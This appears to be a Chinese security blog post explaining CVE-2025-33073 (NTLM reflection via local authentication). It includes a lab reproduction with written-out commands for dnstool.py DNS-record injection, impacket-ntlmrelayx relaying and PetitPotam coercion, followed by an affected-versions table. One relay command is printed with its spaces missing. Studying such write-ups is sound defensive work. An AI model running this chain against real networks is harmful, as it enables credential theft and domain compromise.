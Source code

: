 #  域大杀器 CVE-2025-33073 NTLM反射  
原创 想要暴富的友人A  想要暴富的安服仔   2025-06-15 05:05  
  
#   
## CVE-2025-33073  
### 本地 NTLM 身份验证  
  
NTLM 本地身份验证  
是 NTLM 身份验证的一种特殊情况正常 NTLM 认证是三个阶段  
1. NEGOTIATE  
  
1. CHALLENGE  
  
1. AUTHENTICATE，  
  
如果客户端和服务器被判定为“本地调用”，服务器在 CHALLENGE 阶段就指示客户端无需计算 NTLM 响应，而是直接将 当前令牌（如 SYSTEM）传给服务器使用。  
> 关键标志位是：NTLMSSP_NEGOTIATE_LOCAL_CALL (0x4000)  
> 被放在 NTLM_CHALLENGE 消息中，提示客户端走本地身份验证流程。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lm5zHLHYICRNxNzOEfbJF1ibeQXrchhoibG4L8dzwT1z37hzu0d8P3obg/640?wx_fmt=png&from=appmsg "")  
  
当服务器判断“你连的是本地机器”时，它会启用一个特殊机制来省略加密计算，直接共享进程令牌，流程变为：  
1. 客户端发送 NEGOTIATE  
  
➜ 包含工作站名和域名，服务器一看：咦？你是我自己！  
  
1. 服务器返回 CHALLENGE  
  
设置   
NTLMSSP_NEGOTIATE_LOCAL_CALL  
  
 附带一个“上下文 ID”，用来代表我在本机 lsass 进程中建了一个 context。  
  
1. 客户端一看是本地调用  
  
 它就不计算 NTLM 响应，而是：  
  
把自己当前的 Token（例如 SYSTEM）加入服务器那个上下文中  
  
1. 客户端发回 AUTHENTICATE（几乎是空的！）  
  
➜ 不包含加密回应，只带一个 ID，告诉服务器：我已经把 Token 放到你那儿了。  
  
1. 服务器拿着 Token 开始模拟进行操作  
  
### 漏洞复现  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n53" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">IP</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n54" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">系统</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n55" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n57" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.8</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n58" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">kali</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n59" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">攻击机</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n61" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.33（</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">srv.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">）</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n62" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n63" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">目标机器</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n65" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.34 (</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">dc.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">)</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n66" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n67" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">DNS、DC机器</span></span></span></td></tr></tbody></table>  
添加恶意dns解析  
```
python3 dnstool.py -u 'redteam\john' -p 'user@123' 10.211.55.33 -a add -r srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.8
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lYqT08YwWXCtTP764TyNRaibeUcFc4vkhEomWjwUe3jZ8txicyTNpQTzw/640?wx_fmt=png&from=appmsg "")  
  
监听请求  
```
impacket-ntlmrelayx-tsrv.redteam.com-smb2support
```  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lcWiaICE5h6OVXgnXIYsK6AocGtOOjZL1icl9d4eckwKI5RiaWRmjQonvg/640?wx_fmt=png&from=appmsg "")  
  
  
触发强制连接  
```
python3 PetitPotam.py -u john -p 'user@123' -d redteam.com srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA srv.redteam.com         
```  
  
成功触发获取hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lqIqfdPwxQCoZR9ics5gIe41mkeEOh2eLbHibbmfjODibk8joxlibjib0wYg/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞影响范围  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n82" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">操作系统/版本</span></span></strong></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n83" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">是否受影响</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n84" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n86" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 11（22H2、23H2、24H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n87" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n88" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">默认情况下得到缓解；MS-EFSRPC 得到强化并且 NTLM 的使用受到限制。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n90" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2025（预览版）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n91" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n92" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">最新版本默认已阻止强制执行。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n94" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2022</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n95" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n96" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">发布前已修补；默认情况下缓解 MS-EFSRPC。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n98" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2019</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n99" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n100" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非完全修补并配置 NTLM 限制，否则仍然有效。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n102" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2016</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n103" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n104" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">MS-EFSRPC 接口仍然可用；默认允许 NTLM。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n106" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2012 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n107" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n108" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">强制开箱即用；需要手动强化。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n110" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2008 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n111" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n112" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">如果未修补则完全容易受到攻击；没有默认缓解措施。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n114" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 10（最高至 21H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n115" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n116" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非修补，否则容易受到攻击；如果启用了 NTLM，EFSRPC 强制就会起作用。</span></span></span></td></tr></tbody></table>### 参考连接  
  
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  
  
https://github.com/mverschu/CVE-2025-33073  
  
